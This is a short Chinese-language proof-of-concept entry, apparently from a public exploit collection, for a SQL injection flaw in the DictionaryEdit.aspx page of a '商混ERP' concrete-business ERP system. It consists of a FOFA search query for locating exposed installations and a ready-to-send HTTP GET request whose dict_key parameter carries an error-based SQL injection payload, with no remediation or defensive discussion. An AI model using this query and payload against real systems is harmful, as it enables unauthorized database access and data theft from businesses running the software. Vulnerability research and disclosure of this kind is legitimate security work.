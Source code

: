 ## 商混ERP-DictionaryEdit.aspxSQL注入漏洞

## fofa
```
title="商混ERP系统"
```

## poc
```
GET /Sys/DictionaryEdit.aspx?dict_key=1%27%20and%201=convert(varchar(100),substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32))-- HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0
```

![1b7bdddf5e50c3666285f6e2f366df73](https://github.com/wy876/POC/assets/139549762/e5872135-ff83-4e8a-a260-049034511ce9)
